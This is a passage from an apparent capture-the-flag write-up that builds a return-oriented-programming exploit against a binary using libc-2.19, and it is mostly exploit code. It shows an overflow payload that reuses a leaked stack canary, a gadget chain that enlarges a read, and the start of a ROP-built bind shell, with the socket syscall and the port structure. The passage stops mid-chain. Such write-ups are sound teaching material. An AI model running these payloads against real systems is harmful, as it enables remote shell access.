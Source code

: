 Cool now we have the defeat to the stack canary and ASLR. Now to defeat DEP.

What I did now was then use ROPgadget to dump the all the gadgets out of the libc.
	ROPgadget --binary libc-2.19.so > gadgets.txt

My rop chain goal was to initiate a bind-shell on their system and print the flag.

First I needed more space. Looking at the registers right before the crash I 
noticed that after the last read that most of the piping was intact.

This means I could reuse most of the registers and consume more into the stack 
then initially meant to.

## Addition to s.py

	#read(pipe,stack,0x700)
	init = ''
	init += struct.pack('<Q',libcadr+0xbcdee) # xor eax,eax; pop rdx; ret
	init += struct.pack('<Q',0x700) #Rop chain size
	init += struct.pack("<Q",libcadr+0xc1d05) # syscall; ret

With the above gadgets I now forced the new read to take in 0x700 from the 
original pipe and consume more data into the stack.

Now to make the payload.

## Additon to s.py
	
	payload = "A"*(300)+"B"*4+"C"*4+"D"*4+cookie+"E"*4+"F"*4+init

The above pops the overflow uses the cookie to bypass the stack canary and then 
uses the rop gadgets to consume more from the pipe to allow another payload.

Now I just needed a bindshell made entirely out of rop gadgets.

The first part would be to make the socket call

	p = ''
	p+= struct.pack('<Q',libcadr+0x00000000000b4a21) # xor edx, edx ; add rsp, 8 ; mov rax, rdx ; ret
	p+= struct.pack('<Q',0x4141414141414141) #Pad
	p+= struct.pack('<Q',libcadr+0x000000000003763d) # xor eax, eax ; nop ; ret
	p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
	p+= struct.pack('<Q',0x29)              # rax = 0x29
	p+= struct.pack('<Q',libcadr+0x00024885)#pop rsi
	p+= struct.pack('<Q',0x1)               # rsi = 0x1
	p+= struct.pack('<Q',libcadr+0x00022b9a)#pop rdi
	p+= struct.pack('<Q',0x2)	        # rdi = 0x2
	p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret Socket(2,1,0)

Next we write the socket structure to the .data section of glibc

	#Write socket data
	p += struct.pack('<Q', libcadr+0x000bcdf0) # pop rdx; ret
	p += '\x02\x00\xe0\x15\x00\x00\x00\x00'    # Type 2, port 57365
	p += struct.pack('<Q', libcadr+0x0000000000022b9a) # pop rdi ; ret
	p += struct.pack('<Q', libcadr+0x00000000003be080) # @ .data ; rdi = .data
